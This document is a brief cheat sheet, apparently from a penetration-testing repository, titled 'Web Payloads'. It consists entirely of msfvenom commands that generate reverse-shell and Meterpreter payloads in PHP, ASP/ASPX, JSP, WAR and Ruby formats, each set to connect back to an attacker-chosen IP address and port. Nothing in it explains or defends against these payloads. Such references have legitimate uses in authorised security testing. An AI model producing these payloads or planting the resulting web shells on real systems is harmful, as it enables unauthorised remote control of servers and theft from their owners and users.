 # Web Payloads

## PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```

## ASP / ASPX

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```

## JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

## WAR

```bash
msfvenom -p java/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

## Ruby

```bash
msfvenom --platform ruby -p ruby/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -o payload.rb
```